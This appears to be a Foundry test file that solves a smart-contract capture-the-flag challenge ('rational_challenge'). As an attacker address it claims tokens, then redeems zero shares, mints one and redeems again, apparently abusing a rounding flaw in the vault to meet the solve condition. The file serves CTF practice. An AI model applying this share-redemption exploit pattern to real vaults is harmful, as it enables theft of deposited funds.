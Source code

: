 ```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {Setup} from "../src/rational_challenge/Setup.sol";

contract RationalSolution is Test {
    Setup public setupp;
    address public attacker = makeAddr("attacker");

    function setUp() public {
        setupp = new Setup();
    }

    function testExploit() public {
        //first we are claiming our 1000 GREY given by the setup contract
        vm.startPrank(attacker);
        setupp.claim();

        console.log("balance of attacker before redeeming", setupp.vault().asset().balanceOf(attacker) / 1e18);
        console.log("total supply of vault  before redeeming", setupp.vault().totalSupply() / 1e18);

        // setupp.vault().withdraw(0);
        setupp.vault().redeem(0);

        console.log(
            "balance of attacker after redeeming by the attacker", setupp.vault().asset().balanceOf(attacker) / 1e18
        );
        console.log("total supply of vault  after minting by the attacker", setupp.vault().totalSupply() / 1e18);

        setupp.grey().approve(address(setupp.vault()), 1);

        setupp.vault().mint(1);

        console.log("balance of attacker after minting", setupp.vault().asset().balanceOf(attacker) / 1e18);
        console.log("total supply of vault  after redeeming", setupp.vault().totalSupply() / 1e18);

        setupp.vault().redeem(1);

        console.log("balance of attacker after redeeming 2nd time", setupp.vault().asset().balanceOf(attacker) / 1e18);
        console.log("total supply of vault after redeeming 2nd time", setupp.vault().totalSupply() / 1e18);

        assertTrue(setupp.isSolved(), "not solved");
    }
}

```
